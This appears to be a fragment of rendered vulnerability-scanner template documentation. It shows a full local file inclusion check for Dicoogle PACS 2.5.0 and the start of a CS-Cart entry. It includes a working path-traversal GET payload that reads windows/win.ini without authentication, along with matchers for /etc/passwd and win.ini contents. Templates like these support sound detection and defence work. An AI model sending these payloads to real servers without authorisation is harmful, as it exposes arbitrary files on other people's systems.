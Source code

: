 **Type - regex**

- regex
  1. root:[x*]:0:0

**Type - status**

- status
  1. 200

---

# Dicoogle PACS 2.5.0 - Local File Inclusion

## Description

- Dicoogle PACS 2.5.0 is vulnerable to local file inclusion. This allows an attacker to read arbitrary files that the web user has access to. Admin credentials aren't required.
- severity - high
- tags - edb,windows,lfi,dicoogle

## Requests

- Method - GET

### URL

- {{BaseURL}}/exportFile?UID=..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5cwindows%5cwin.ini

### Matchers

**Type - word**

- part - body
- words
  1. bit app support
  2. fonts
  3. extensions
- condition - and

---

# CS-Cart - Local File Inclusion

## Description

- CS-Cart is vulnerable to local file inclusion because it allows remote unauthenticated attackers to access locally stored files and reveal their content.
- severity - high
- tags - cscart,lfi
